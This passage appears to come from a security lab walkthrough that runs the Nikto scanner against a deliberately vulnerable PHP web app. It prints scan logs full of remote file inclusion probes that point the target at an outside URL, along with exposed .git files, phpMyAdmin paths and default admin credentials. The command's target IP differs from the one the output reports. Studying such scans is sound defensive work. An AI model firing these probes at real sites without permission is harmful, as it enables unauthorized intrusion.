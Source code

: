 ```
+ OSVDB-5292: GET /index.php?themesdir=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?this_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?txt=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?up=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?url=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?w=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?way=http://cirt.net/rfiinc.txt???????????????: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ GET /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: GET /.git/index: Git Index file may contain directory listing information.
+ GET /.git/HEAD: Git HEAD file found. Full repo details may be present.
+ OSVDB-3092: GET /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ OSVDB-3268: GET /webservices/: Directory indexing found.
+ GET /webservices/: Webservices found
+ GET /.git/config: Git config file found. Infos about repo details may be present.
+ OSVDB-3092: GET /phpmyadmin/README: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
```

Scanning the target application for LFI vulnerability.

Check for the Remote File Retrieval in verbose mode.

`nikto -h http://192.99.108.3/index.php?page=arbitrary-file-inclusion.php -o ~/Desktop/webapp_nikto_lfi.txt -Format txt -Tuning 5 -Display V`:
```
- Nikto v2.1.6/2.1.5
- Nikto v2.1.6/2.1.5
+ Target Host: 192.141.217.3
+ Target Port: 80
+ GET Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.25
+ GET The anti-clickjacking X-Frame-Options header is not present.
+ GET X-XSS-Protection header has been set to disable XSS Protection. There is unlikely to be a good reason for this.
+ GET Uncommon header 'logged-in-user' found, with contents: 
+ GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ GET Cookie PHPSESSID created without the httponly flag
+ GET Cookie showhints created without the httponly flag
+ HEAD /index.php: Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ OGAAJEJY Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ GET /index.php/kboard/: KBoard Forum 0.3.0 and prior have a security problem in forum_edit_post.php, forum_post.php and forum_reply.php
+ GET /index.php/lists/admin/: PHPList pre 2.6.4 contains a number of vulnerabilities including remote administrative access, harvesting user info and more. Default login to admin interface is admin/phplist
+ GET /index.php/splashAdmin.php: Cobalt Qube 3 admin is running. This may have multiple security problems as described by www.scan-associates.net. These could not be tested remotely.
+ GET /index.php/ssdefs/: Siteseed pre 1.4.2 has 'major' security problems.
+ GET /index.php/sshome/: Siteseed pre 1.4.2 has 'major' security problems.
+ GET /index.php/tiki/: Tiki 1.7.2 and previous allowed restricted Wiki pages to be viewed via a 'URL trick'. Default login/pass could be admin/admin
```